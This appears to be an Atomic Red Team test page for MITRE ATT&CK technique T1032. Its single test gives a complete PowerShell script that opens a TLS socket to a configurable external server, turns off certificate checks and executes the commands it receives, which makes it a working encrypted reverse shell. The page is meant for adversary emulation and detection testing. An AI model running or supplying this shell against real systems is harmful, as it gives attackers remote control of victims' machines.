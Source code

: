 # T1032 - Standard Cryptographic Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1032)
<blockquote>Adversaries may explicitly employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if necessary secret keys are encoded and/or generated within malware samples/configuration files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)


<br/>

## Atomic Test #1 - OpenSSL C2
Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | IP of the external server | String | 127.0.0.1|
| server_port | The port to connect to on the external server | String | 443|


#### Attack Commands: Run with `powershell`! 
```
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', #{server_port})
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```






<br/>
